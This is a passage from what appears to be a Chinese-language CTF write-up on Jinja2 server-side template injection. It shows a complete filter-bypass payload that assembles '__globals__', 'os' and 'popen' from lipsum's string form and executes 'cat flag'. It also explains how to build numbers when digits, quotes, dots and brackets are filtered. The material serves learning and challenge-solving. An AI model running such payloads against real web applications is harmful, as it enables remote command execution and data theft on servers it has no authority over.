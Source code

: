     {% set cmd = (cat, space, flag) | join %} {# cmd = 'cat flag' #}
    {% set read = dict(read=a) | join %} {# read = 'read' #}
    ```
6.  **组合最终 Payload:**
    ```jinja
    {% set pop=dict(pop=a)|join%}
    {% set xiahuaxian=(lipsum|string|list)|attr(pop)(18)%}
    {% set globals=(xiahuaxian,xiahuaxian,dict(globals=a)|join,xiahuaxian,xiahuaxian)|join %}
    {% set getitem=(xiahuaxian,xiahuaxian,dict(getitem=a)|join,xiahuaxian,xiahuaxian)|join %}
    {% set space=(lipsum|string|list)|attr(pop)(9)%}
    {% set os=dict(os=a)|join %}
    {% set popen=dict(popen=a)|join%}
    {% set cat=dict(cat=a)|join%}
    {% set flag_str=dict(flag=a)|join%} {# Renamed variable to avoid conflict with possible flag variable #}
    {% set cmd=(cat,space,flag_str)|join%}
    {% set read=dict(read=a)|join%}
    {{(lipsum|attr(globals))|attr(getitem)(os)|attr(popen)(cmd)|attr(read)()}}
    ```

*注意：上述构造方法中的索引（如 18, 9）和假设（如 `lipsum` 包含所需字符）需要根据实际目标环境进行测试和调整。变量 `a` 是为了在 `dict()` 中创建键值对，其值不重要。*

-----

## Level 12 - 终极过滤 ([‘\_’, ‘.’, ‘0-9’, ‘\\‘, ‘'‘, ‘“‘, ‘[‘, ‘]’])

当过滤了下划线、点号、数字、反斜杠、引号、中括号等几乎所有常用特殊字符时，需要在 Level 11 的基础上，增加数字构造的步骤。

例如，需要索引 `18` 时，可以这样构造：

```jinja
{# 构造数字 9 #}
{% set nine = dict(aaaaaaaaa=a) | join | count %}
{# 构造数字 18 #}
{% set eighteen = nine + nine %} {# 或者其他能凑出 18 的方法 #}
```

然后将 Level 11 中需要数字索引的地方（例如提取下划线时的 `attr(pop)(18)`）替换为构造出来的数字变量（`attr(pop)(eighteen)`）。

这种情况下，Payload 会变得极其冗长和复杂，但原理是利用 Jinja2 仅存的少量可用字符、函数和过滤器（如 `set`, `dict`, `|join`, `|count`, `|string`, `|list`, `|attr`, `~` 拼接符, `+` 算术符等）来逐步构建出执行命令所需的字符串和函数调用链。